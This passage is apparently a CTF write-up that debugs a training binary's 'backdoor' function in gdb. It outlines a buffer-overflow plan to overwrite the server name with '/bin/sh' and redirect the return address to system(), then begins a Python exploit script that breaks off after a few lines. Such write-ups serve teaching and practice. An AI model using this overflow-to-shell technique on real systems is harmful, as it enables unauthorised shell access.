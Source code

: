 ```gdb
wdb> b * 0x400b8a
Breakpoint will be set at 0x400b8a
Started '03_level_2'
Breakpoint 1: 0x400b8a, backdoor+0
wdb> ni
0x400b8b in backdoor ()
wdb> ni
0x400b8e in backdoor ()
wdb> ni
0x400b92 in backdoor ()
wdb> ni
0x400b95 in backdoor ()
wdb> x/gx $rbp-0x4
0x7fffffffed9c: 0x4646464600000001
```
This is good, the first argument to backdoor is saved in `rbp-0x4` and this appears to automatically be set to 1 (for the first 4 bytes since it's taken from edi). Next we can check what happens after `rsi` is moved into `rbp-0x10`:

```gdb
wdb> ni
0x400b99 in backdoor ()
wdb> x/gx $rbp-0x10
0x7fffffffed90: 0x0000000000602160
```
This appears to point to a referenced address 0x602160. If we examine the contents of memory at that location as a string, we can see what characters were stored there:

```gdb
wdb> x/s 0x602160
0x602160: "/\ LEET BBS /\\n"
```

This makes sense now. The backdoor function is receiving the `server_name` global variable as a second argument, and this is being input into the `system` call as it's first argument. From this output, it appears whatever I tried to set previously in `rbp-0x10` is being overwritten between calls :expressionless:


To solve this problem, it looks like we need to overwrite the server name with our new admin access and set this to "/bin/sh". After the server name has been set, we'll need to trigger the bug in the same way a second time, but this time overwriting the return address with the address of `backdoor` which is `0x400b8a` :grin: To automate the process, we update the python script to account for pressing enter, changing the server name, then creating another post triggering the buffer overflow and supplying a return address to `backdoor`.

## Final Exploit Script

```python
import interact
import struct

# Pack integer 'n' into a 8-Byte representation
def p64(n):
    return struct.pack('Q', n)

# Unpack 8-Byte-long string 's' into a Python integer
def u64(s):
    return struct.unpack('Q', s)[0]

p = interact.Process()
p.readuntil('Enter choice')
p.sendline('1')
#p.readuntil('Enter post title:')
p.sendline('A' * 30)
#p.readuntil('Enter post contents:')
```